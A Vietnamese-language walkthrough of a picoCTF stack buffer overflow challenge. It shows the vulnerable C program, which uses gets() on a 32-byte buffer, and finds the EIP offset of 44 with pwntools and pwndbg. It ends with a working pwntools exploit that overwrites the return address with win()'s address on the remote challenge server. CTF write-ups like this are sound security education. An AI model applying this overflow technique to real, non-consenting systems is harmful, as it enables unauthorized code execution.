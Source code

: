 <img width="592" height="436" alt="Pasted image 20250925154954" src="https://github.com/user-attachments/assets/f24951d6-f5b0-45e2-a146-dfe476f57982" />

Chạy thử chương trình: <br>
<img width="1272" height="165" alt="Pasted image 20250925155024" src="https://github.com/user-attachments/assets/920b068d-0434-45ea-a8c4-8cbd2e2316aa" />

Thử kiểm tra bằng `checksec`: <br>
<img width="1015" height="310" alt="Pasted image 20250925155928" src="https://github.com/user-attachments/assets/9ba28b07-0fd4-4462-a93f-967e051eee0c" />

Mã nguồn chương trình:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```


Dễ thấy, để có được flag, ta cần gọi được hàm `win`. Ta tận dụng lỗi buffer overflow, do thấy mảng buf[] được khai báo với 32 ô nhớ, sử dụng `gets()` để nhập (gets() là hàm dễ gây lỗi).

Ta cần tìm **offset** register EIP. Sau ghi đè register này bằng địa chỉ hàm `win()`.
Để tìm được offset này, ta tạo **pattern** với pwntools.
```python
from pwn import *
print(cyclic(1000))
```

```bash
python offset.py > pattern.txt
```

Debug chương trình vuln với `pwndbg`, nạp vào pattern vừa tạo, ta có giá trị trong thanh ghi EIP khi chương trình bị Segmentation Fault: <br>
<img width="1403" height="333" alt="Pasted image 20250925161532" src="https://github.com/user-attachments/assets/4de49de4-0d53-4ff3-864a-e62ca5ec21d5" />


Từ đây ta dò ra được offset, bằng cách tìm xem từ này nằm ở vị trí nào trong `pattern`. Ta có thể tự động hoá việc này bằng `cyclic_find()` tích hợp trong pwntools.
```python
from pwn import *
print(cyclic_find(0x6161616c))
```

<img width="376" height="100" alt="Pasted image 20250925161841" src="https://github.com/user-attachments/assets/fe7993ba-7b65-427b-a118-70bb86899311" />

Như vậy ta có được offset của EIP là 44. <br>
Bây giờ ta cần tìm địa chỉ của hàm `win()`. Ta dùng `disassemble win` trong pwndbg, vậy là có ngay. <br>
<img width="1151" height="582" alt="Pasted image 20250925162148" src="https://github.com/user-attachments/assets/ea2975e0-f69a-423a-ae53-35974493bcfb" />

Giờ ta viết payload với pwntools. Nạp vào 44 bytes đầu để tới được EIP, sau đó chèn địa chỉ của hàm `win()` vào. <br>
```python
from pwn import *

# p = process('./vuln')
host = 'saturn.picoctf.net'
port = 55096
p = remote(host, port)

offset = 44
ret_addr = 0x080491f6

payload = b"A" * offset + p32(ret_addr)
p.sendline(payload)
p.interactive()
```


Chạy `payload.py`, ta có được flag:
<img width="1237" height="350" alt="Pasted image 20250925160749" src="https://github.com/user-attachments/assets/7088c84b-71ef-4de3-b8c1-95f5913a1070" />


